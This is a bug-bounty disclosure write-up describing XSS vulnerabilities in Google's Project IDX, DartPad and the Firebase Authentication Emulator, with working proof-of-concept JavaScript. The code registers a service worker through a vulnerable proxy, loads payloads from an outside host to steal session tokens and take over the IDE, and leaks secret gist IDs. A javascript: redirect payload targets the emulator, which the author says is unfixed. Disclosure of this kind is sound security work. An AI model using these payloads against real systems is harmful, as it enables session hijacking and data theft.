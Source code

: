 ```yaml
---
title: idx.google.com XSS (Awarded $3133.70)
---
```


This is a hosted development environment called Project IDX based on [Visual Studio Code](https://github.com/microsoft/vscode) like [Google Cloud Shell](https://cloud.google.com/shell/)

Feature being abused: <https://developers.google.com/idx/guides/debug-in-idx#chrome-devtools>  
Its based of the Chii open source project: <https://github.com/liriliri/chii/commit/0002b761737f450fe070699b6fec284d6e1e91e9>

- Create a project as simple html.
- Once loaded, Take the `ID` from an iframe in the format `https://9000-monospace-<ID>.cloudworkstations.dev` (In a real attack this could be leaked from the network)
- Run the following from any website replacing `ID` with your own ID.

```js
// Vulnerable debugger proxy (Runs any js code you want, Fetch as the victims server)
let target = 'https://8282-monospace-<ID>.cloudworkstations.dev/proxy?url=';

// Link to our service worker
let proxy = new URL('https://terjanq.me/xss.php');
proxy.searchParams.set('ct', 'application/javascript');
proxyPayload = `
self.addEventListener("fetch", (event) => {
 let url = event.request.url;
 // Leak token from redirect since its a httponly cookie
  // Authentication is done by:
 // Redirecting the user to https://ssh.cloud.google.com/devshell/gateway/oauth?state=<value> (Cross-site, COOP, embed protection)
 // https://<PORT>-idx-<ID>.cloudworkstations.dev/_workstation/login?redirect=<value> this sets a cookie then redirects back.
 if (url.includes("_workstation/login")) {
  console.info('🎉 Leaked token: '+url);
 }
});
`;
proxy.searchParams.set('html', proxyPayload);

// Link to force a re-authenticate
let reauth = new URL('https://terjanq.me/xss.php');
reauth.searchParams.set('h[Clear-Site-Data]', '"cookies"');
reauthPayload = `
setTimeout(() => { location.href=location.origin }, 3000);
`;
reauth.searchParams.set('js', reauthPayload);

// Link to create service worker
let setup = new URL('https://terjanq.me/xss.php');
setupPayload = `
navigator.serviceWorker.register("${target + encodeURIComponent(proxy.href)}");
setTimeout(() => { location.href="${target + encodeURIComponent(reauth.href)}" }, 3000);
`;
setup.searchParams.set('js', setupPayload);

// Do the stuff
location = target + encodeURIComponent(setup.href);
```

- In the console you should see a message that says "leaked token" of the format `https://8282-monospace-<ID>.cloudworkstations.dev/_workstation/login?redirect=<secret>` in a new browser go to that URL and you will be logged in to the debugger.
- You will have got a `WorkstaionJwt` from that by changing the domain of this cookie for example to `80-monospace-<ID>.cloudworkstations.dev` you can login to the IDE!

# Pointless XSS section :)

## DartPad XSS (dartpad.dev)

This is an editor for Dart code.

By abusing the XSS in `frame.html` it allowed putting interactive content on other people's websites
that use the code embed via a popup window reference which is a spoofing risk especially if providing API keys on that site is expected behavior also It's leaking injected snippets or secret gists of that site.

```js
// Please click, Opening a victim popup needs user activation
onclick = () => {
  let frame = document.createElement('iframe');
  frame.src = 'https://dartpad.dev/frame.html';
  document.body.appendChild(frame);

  payload = `
 // XSS running on the dartpad.dev origin (instead of null)
 let win = open('https://terjanq.me/xss.php?html=%3Ciframe%20src=%22https://dartpad.dev/?id=5c0e154dd50af4a9ac856908061291bc?theme=light%22%3E%3C/iframe%3E');
 setTimeout(() => {
  // Leak the secret gist ID of a cross-site embed
  alert('Leaked: ' + win[0].location.search);
 }, 2000);
`;

  frame.onload = () => {
    frame.contentWindow.postMessage(
      {
        command: 'execute',
        js: payload,
      },
      '*',
    );
  };
};
```

This was fixed in <https://github.com/dart-lang/dart-pad/pull/2943> by enforcing the`null` origin sandbox.

## Firebase Authentication Emulator XSS (localhost) Not fixed

This is a local test environment for Firebase.

<https://github.com/firebase/firebase-tools/blob/80964d04ee34b204116be6139e76ad96f427a06d/src/emulator/auth/widget_ui.ts#L65>

Navigates to a `javascript:` path provided in the `redirectUrl` URL parameter for example, `/emulator/auth/handler?apiKey=1&providerId=1&redirectUrl=javascript:alert(origin)&appName=1`
Other emulator XSS, <https://github.com/firebase/firebase-tools/blob/96fe35f4a38736f16a183c76a53112a7b86b2487/src/emulator/functionsEmulator.ts#L1554-L1556>
